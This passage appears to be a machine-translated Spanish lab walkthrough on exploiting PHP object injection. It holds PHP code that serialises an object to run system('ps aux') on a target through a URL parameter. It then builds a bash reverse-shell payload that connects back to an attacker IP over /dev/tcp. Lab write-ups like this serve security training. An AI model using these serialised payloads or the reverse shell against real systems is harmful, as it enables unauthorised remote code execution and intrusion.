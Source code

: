 Ahora que tenemos la ejecución del código en el servidor de destino, vamos a comprobar la lista de procesos en ejecución:

Guarde el siguiente fragmento de código como object.php

```
<?php
class PHPObjectInjection {
    public $inject = "system('ps aux');";
}

$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>

```

Serialice el objeto:

Mandar:

```
php object.php
```

Carga serializada:

```
O:18:"PHPObjectInjection":1:{s:6:"inject";s:17:"system('ps aux');";}
```

Asigne el valor generado en el parámetro **r** de la URL:

Se recupera la lista de procesos, como se muestra en la imagen anterior.

Compruebe la fuente de la página para obtener una respuesta con mejor formato (presione CTRL+U):

Paso 10: Obtén una cáscara inversa.

Ejecutar comandos individuales es bueno, pero requiere que generemos el valor serializado cada vez.

> Consigamos una cáscara inversa para evitar eso.

Antes de pasar a la parte de generación de la carga útil, recupere la dirección IP de la máquina atacante:

Mandar:

```
ip addr
```

La dirección IP de la máquina atacante es 192.222.13.2

> \[Nota] La dirección IP está destinada a cambiar con cada ejecución de laboratorio. Por favor, asegúrese de reemplazar la dirección IP utilizada en la carga útil. De lo contrario, la carga útil no funcionaría.

Guarde el siguiente fragmento de código como object.php

```
<?php
class PHPObjectInjection {
    public $inject = "system('/bin/bash -c \'bash -i >& /dev/tcp/192.222.13.2/54321 0>&1\'');";
}

$obj = new PHPObjectInjection();
var_dump(serialize($obj));
?>

```

